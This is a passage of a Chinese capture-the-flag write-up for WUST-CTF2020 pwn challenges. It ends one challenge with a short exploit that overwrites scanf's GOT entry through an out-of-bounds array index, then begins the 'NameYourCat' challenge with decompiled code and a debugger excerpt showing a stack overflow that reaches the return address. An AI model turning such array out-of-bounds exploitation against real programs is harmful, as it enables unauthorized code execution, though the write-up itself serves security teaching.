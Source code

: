 
`scanf`函数会在给下一只狗狗起名字的时候调用，所以选择改写`scanf`的got表即可

偏移量：`(0x804a028-0x804a060)/8=-7`

### exp

```python
shell = p32(0x080485CB)
sla('>','-7')
sla('Give your name plz: ',shell)
```



## NameYourCat

- 题目描述：

  > Author: ColdShield

- 题目附件：[NameYourCat](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/WUST-CTF2020/pwn/NameYourCat/NameYourCat)

- 考察点：数组越界

- 难度：简单

- 初始分值：1000

- 最终分值：997

- 完成人数：4

### 程序分析

和狗狗那题类似，出题人不是说喜欢喵嘛~ 这题只是把狗狗改成了喵，还是数组越界的漏洞。

### 解题思路

```c
unsigned int vulnerable(){
  int index; // ST20_4
  signed int i; // [esp+Ch] [ebp-3Ch]
  char Cats[40]; // [esp+14h] [ebp-34h]
  // ...
}
```

这次数组喵`Cats`是`vulnerable`中定义的临时变量

既然喵位于栈中，那么利用数组越界直接修改程序返回地址即可

```nasm
 ► 0x8048695 <NameWhich+99>     call   __isoc99_scanf@plt <0x80484b0>
        format: 0x804889f ◂— 0x733725 /* '%7s' */
        vararg: 0xffffcc54 —▸ 0xf7fe9790 ◂— pop    edx
```
